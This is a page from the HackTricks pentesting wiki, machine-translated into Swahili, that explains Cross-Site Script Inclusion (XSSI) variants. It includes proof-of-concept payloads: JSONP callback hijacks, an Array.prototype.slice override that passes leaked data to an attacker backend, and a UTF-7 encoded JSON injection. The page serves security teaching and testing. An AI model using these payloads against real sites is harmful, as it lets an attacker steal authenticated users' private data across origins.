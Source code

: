 # XSSI (Cross-Site Script Inclusion)

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**Cross-Site Script Inclusion (XSSI)** ni udhaifu unaotokana na asili ya lebo ya `script` katika HTML. Tofauti na rasilimali nyingi, ambazo zinategemea **Same-Origin Policy (SOP)**, scripts zinaweza kujumuishwa kutoka maeneo tofauti. Tabia hii inakusudia kuwezesha matumizi ya maktaba na rasilimali nyingine zinazohifadhiwa kwenye seva tofauti lakini pia inaletewa hatari ya usalama.

### Key Characteristics of **XSSI**:

- **Bypass of SOP**: Scripts hazijumuishwi katika **Same-Origin Policy**, zikiruhusiwa kujumuishwa kati ya maeneo.
- **Data Exposure**: Mshambuliaji anaweza kutumia tabia hii kusoma data iliyopakiwa kupitia lebo ya `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** ni muhimu hasa kwa JavaScript ya dinamik au **JSON with Padding (JSONP)**. Teknolojia hizi mara nyingi hutumia taarifa za "ambient-authority" (kama vidakuzi) kwa ajili ya uthibitishaji. Wakati ombi la script linapotolewa kwa mwenyeji tofauti, akreditif hizi (mfano, vidakuzi) hujumuishwa moja kwa moja katika ombi.
- **Authentication Token Leakage**: Ikiwa mshambuliaji anaweza kumdanganya kivinjari cha mtumiaji kutafuta script kutoka seva wanayodhibiti, wanaweza kuwa na uwezo wa kupata taarifa nyeti zilizomo katika maombi haya.

### Types

1. **Static JavaScript** - Hii inawakilisha aina ya kawaida ya XSSI.
2. **Static JavaScript with Authentication** - Aina hii ni tofauti kwa sababu inahitaji uthibitishaji ili kufikia.
3. **Dynamic JavaScript** - Inahusisha JavaScript inayounda maudhui kwa njia ya dinamik.
4. **Non-JavaScript** - Inarejelea udhaifu ambao hauhusishi JavaScript moja kwa moja.

**Taarifa ifuatayo ni muhtasari wa [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Angalia kwa maelezo zaidi.

### Regular XSSI

Katika mbinu hii, taarifa binafsi zimejumuishwa ndani ya faili ya JavaScript inayopatikana kwa urahisi duniani. Wavamizi wanaweza kubaini faili hizi kwa kutumia mbinu kama kusoma faili, kutafuta maneno, au matumizi ya kawaida ya kawaida. Mara baada ya kupatikana, script inayoshikilia taarifa binafsi inaweza kujumuishwa katika maudhui ya uhalifu, ikiruhusu ufikiaji usioidhinishwa wa data nyeti. Mbinu moja ya unyakuzi inaonyeshwa hapa chini:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
alert(JSON.stringify(confidential_keys[0]))
</script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI

Aina hizi za mashambulizi ya XSSI zinahusisha taarifa za siri kuongezwa kwa njia ya kidinamikia kwenye script kama jibu la ombi la mtumiaji. Ugunduzi unaweza kufanywa kwa kutuma maombi yenye na bila kuki na kulinganisha majibu. Ikiwa taarifa zinatofautiana, inaweza kuashiria uwepo wa taarifa za siri. Mchakato huu unaweza kuandaliwa kwa kutumia zana kama [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) kiendelezi cha Burp.

Ikiwa data za siri zimehifadhiwa katika variable ya kimataifa, zinaweza kutumika kwa kutumia mbinu zinazofanana na zile zinazotumika katika XSSI ya Kawaida. Hata hivyo, ikiwa data za siri zimejumuishwa katika jibu la JSONP, washambuliaji wanaweza kuiba kazi ya callback ili kupata taarifa hizo. Hii inaweza kufanywa kwa kubadilisha vitu vya kimataifa au kuanzisha kazi itakayotekelezwa na jibu la JSONP, kama inavyoonyeshwa hapa chini:
```html
<script>
var angular = function () {
return 1
}
angular.callbacks = function () {
return 1
}
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script
src="https://site.tld/p?jsonp=angular.callbacks._7"
type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Kwa mabadiliko ya _prototype_ yasiyo katika eneo la jina la kimataifa, mara nyingine inaweza kutumika. Mbinu hii inatumia muundo wa JavaScript, ambapo tafsiri ya msimbo inahusisha kupita kwenye mnyororo wa prototype ili kupata mali inayoitwa. Kwa kubadilisha kazi fulani, kama vile `Array`'s `slice`, washambuliaji wanaweza kufikia na kuvuja mabadiliko yasiyo ya kimataifa:
```javascript
Array.prototype.slice = function () {
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this)
}
```
Maelezo zaidi kuhusu njia za shambulio yanaweza kupatikana katika kazi ya Mtafiti wa Usalama [Sebastian Lekies](https://twitter.com/slekies), ambaye anashikilia orodha ya [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI

Utafiti wa Takeshi Terada unintroduces aina nyingine ya XSSI, ambapo faili za Non-Script, kama CSV, zinavuja cross-origin kwa kuingizwa kama vyanzo katika tag ya `script`. Matukio ya kihistoria ya XSSI, kama shambulio la Jeremiah Grossman la mwaka 2006 kusoma kitabu kamili cha anwani za Google na uvujaji wa data wa JSON wa Joe Walker wa mwaka 2007, yanaonyesha ukali wa vitisho hivi. Zaidi ya hayo, Gareth Heyes anaelezea toleo la shambulio linalohusisha JSON iliy encoded kwa UTF-7 ili kutoroka muundo wa JSON na kutekeleza scripts, ambayo ni madhubuti katika vivinjari fulani:
```javascript
;[
{
friend: "luke",
email:
"+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
},
]
```

```html
<script
src="http://site.tld/json-utf7.json"
type="text/javascript"
charset="UTF-7"></script>
```
{{#include ../banners/hacktricks-training.md}}
